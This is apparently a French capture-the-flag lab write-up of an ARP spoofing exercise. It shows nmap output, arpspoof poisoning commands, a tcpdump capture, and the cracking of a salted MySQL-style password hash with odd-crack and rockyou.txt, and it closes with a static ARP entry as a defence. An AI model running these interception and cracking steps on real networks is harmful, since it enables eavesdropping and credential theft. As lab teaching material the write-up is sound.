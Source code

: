    ```bash
    MAC Address: 02:42:1C:61:A6:41 (Unknown)

    Nmap scan report for client.arp-spoofing-dist-2_default (172.18.0.3)
    Host is up (0.000047s latency).
    All 1000 scanned ports on client.arp-spoofing-dist-2_default (172.18.0.3)   are closed
    MAC Address: 02:42:AC:12:00:03 (Unknown)

    Nmap scan report for db.arp-spoofing-dist-2_default (172.18.0.4)
    Host is up (0.000043s latency).
    Not shown: 999 closed ports
    PORT     STATE SERVICE
    3306/tcp open  mysql
    MAC Address: 02:42:AC:12:00:04 (Unknown)

    Nmap scan report for fac50de5d760 (172.18.0.2)
    Host is up (0.000019s latency).
    Not shown: 999 closed ports
    PORT   STATE SERVICE
    22/tcp open  ssh

    Nmap done: 256 IP addresses (4 hosts up) scanned in 2.47 seconds
   ```
   On remarque que les adresses IP qui nous intéressent sont `172.18.0.3` et `172.18.0.4`.

4. **ARP Poisoning**  
   On effectue un ARP poisoning entre les deux machines avec les commandes suivantes :  
   ```bash
   arpspoof -t 172.18.0.3 -r 172.18.0.4
   arpspoof -t 172.18.0.4 -r 172.18.0.3
   ```
5. **Capture des paquets avec `tcpdump`**  
   On capture les paquets entre les deux machines avec la commande :  
   ```bash
   tcpdump host 172.18.0.3 and host 172.18.0.4 -w capture.pcap
   ```
    Ensuite, on transfère le fichier `.pcap` sur notre PC pour l'analyser avec Wireshark.

6. **Analyse avec Wireshark**  
   Dans l'analyse des paquets, on trouve un message qui nous donne la première partie du flag : `l1tter4lly_4_c4ptur3_th3_fl4g`

7. **Récupération du deuxième flag**  
    On récupère deux "salt" et un mot de passe grâce à la capture. On utilise ensuite un outil pour déchiffrer le mot de passe : [odd-hash](https://github.com/kazkansouh/odd-hash).

    - On récupère les deux "salt" en hexadécimal.
    - On télécharge la wordlist `rockyou.txt` depuis [GitHub](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt).

    On exécute la commande suivante :  
    ```bash
    nanouche@Ubuntu:~/Documents$ odd-crack 'hex(sha1_raw($p)+sha1_raw($s.sha1_raw(sha1_raw($p))))' --salt hex:1f55591e630a4a16581b4a4643485f5c3b350125 rockyou.txt 9983d5702a2e58fa4e61b304c861c4367c4194cb
    [*] loading file...
    [*] found heyheyhey=9983d5702a2e58fa4e61b304c861c4367c4194cb
    [*] all hashes found, shutdown requested
    [*] done, tried 4700 passwords
    ```
    Le flag complet est donc : `l1tter4lly_4_c4ptur3_th3_fl4g:heyheyhey` !
## 🌞 Proposer une configuration pour empêcher votre attaque
On configure une entrée ARP statique sur les 2 machines pour empêcher le ARP Poisonnning avec la commande :
```bash
sudo ip n add <adresse_ip> lladdr <adresse_mac> dev <interface>
```